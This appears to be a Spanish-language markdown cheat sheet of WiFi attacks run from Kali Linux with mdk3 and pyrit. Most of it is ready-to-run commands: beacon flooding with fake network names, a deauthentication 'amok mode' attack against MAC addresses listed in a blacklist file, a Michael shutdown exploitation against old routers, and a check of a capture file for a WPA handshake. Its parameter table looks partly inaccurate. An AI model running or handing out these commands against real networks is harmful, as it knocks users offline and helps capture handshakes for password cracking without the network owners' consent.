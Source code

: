 ```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ mdk3 wlan0mon b -f redes.txt -a -s 1000 -c 5

# Si quieres nombres al azar
┌─[root@kali]─[/Documents/WiFi/]
└──╼ mdk3 wlan0mon b -c 5
```

Y se verá de la siguiente forma:


![Beacon](http://imgfz.com/i/q4tJ1bI.jpeg)

| Parámetro | Utilidad |
| :--------: | :-------: |
| b | Asignar interfaz. |
| -f | Asignar fichero. |
| -a | Envía tramas de autenticación a todos los AP que se encuentran en el rango. |
| -c | Seleccione un canal. |

## Ataque disassociation amok mode

Creamos una "blacklist" con las MAC que queremos desautenticar:

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ nano blacklist

18:25:32:45:D8:07 #Pueden ser más de uno
```

Luego ejecutamos el ataque:

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ mdk3 wlan0mon d -w blacklist -c 5
Periodically re-reading blacklist/whitelist every 3 seconds
```

## Ataque Michael Shutdown Exploitation (Funciona solo en routers muy antiguos)

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ mdk3 wlan0mon m -t D8:5D:4C:FF:CC:5A
```

## Detectar handshake con pyrit

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ pyrit -r Captura-02.cap analyze | grep handshake
  #1: Station 18:75:42:47:d8:07, 1 handshake(s): 
```
